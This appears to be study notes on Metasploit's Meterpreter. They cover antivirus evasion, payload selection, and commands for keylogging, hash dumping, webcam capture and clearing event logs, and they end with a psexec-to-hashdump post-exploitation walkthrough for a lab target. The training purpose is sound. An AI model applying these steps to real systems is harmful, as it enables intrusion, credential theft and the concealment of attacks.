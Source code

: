 Meterpreter runs only in memory to avoid disk antivirus scans
It also runs over encrypted traffic eg. HTTPS to avoid IPS and IDS, although most major antivirus can recognize meterpreter (establishes a TLS connection)
meterpreter > `getpid` -> `ps` shows that meterpreter runs under a cover name

`msfvenom -l payloads | grep meterpreter`, shows reverse and bind meterpreter shells on different platforms
Consider 3 factors when deciding which to use:
- Target OS (linux, windows, mac, android, etc.)
- Components available on the system (Python X.X, php website, etc.)
- Available connection types (raw TCP, HTTPS only, IPv6 vs IPv4?)

running `meterpreter > help' will yield different results on different versions (OS, components, connections)
Built-in commands
Meterpreter tools
Meterpreter scripting

Core commands:
background, exit
guid - get the session Globally Unique Identifier
info MODULE(?) - show info on a Post module
irb - interactive Ruby shell
load EXT - load meterpreter extension
migrate - migrates meterpreter to another process
run - execute script or post module

FIle system:
cd, ls, pwd, edit, cat, rm, search, upload, download

Networking:
arp - displays host ARP cache
ifconfig
netstat - display network connections
portfwd - forwards a local port to a remote service
route - view and modify routing table

System:
clearev - clear event logs
execute, getpid
getuid - shows the user that meterpreter is running as
kill, pkill - by number, by name
ps. reboot
shell - drops into system command shell
shutdown, sysinfo

Other:
idletime - number of seconds the remote user has been idle
keyscan_dump - dump keystroke buffer
keyscan_start, keyscan_stop
screenshare, screenshot
record_mic, webcam_list, webcam_snap
webcam_chat - starts video chat
webcam_stream: plays video stream from specified webcam
getsystem - attempts elevating privileges to local system
hashdump - dump content of the SAM (Security Account Manager) database stored in NTLM (New Tech LAN Manager) format

Example Post-Exploitation commands:
`help`
`meterpreter > getuid` -> `NT AUTHORITY\SYSTEM` = admin on windows
`ps` -> `migrate XXX` -> keyscan_start -> keyscan_stop -> keyscan_dump (migrate to word.exe to catch keystrokes)
`hashdump`
`search -f *flag*.txt`
`shell` -> CTRL-Z to return to meterpreter

Post-Exploitation Example:
Intent: gather further information about target system, find: files, user creds, network interfaces, privilege escalation, lateral movement
- given credentials, load up `use exploit/windows/smb/psexec` with msfconsole
- load RHOST, SMBUser and SMBPass 
- run, and get meterpreter shell
- use `sysinfo` to get computer name and domain name
- background sessions and use msfconsole to search a shares enumeration exploit
- use this exploit and `set SESSION 1` to attach to current meterpreter session
- shares are dumped
- try to get hashes with `hashdump` but it's unable to using our current foothold
- `ps` and find a process running as administrator 
**** admin migration should follow this priority: specific vulnerable admin procs, services.exe, wininit.exe, svchost.exe, lsm.exe, lsass.exe, and winlogon.exe
- `migrate PROCESS`, moves meterpreter session to system level
- `hashdump` and feed the hash into crackstation.net
- search for "secrets.txt" with `search -f *secrets.txt
- cat file location, use \ to precede spaces in file name, also use / for directories, instead of the displayed \ from windows
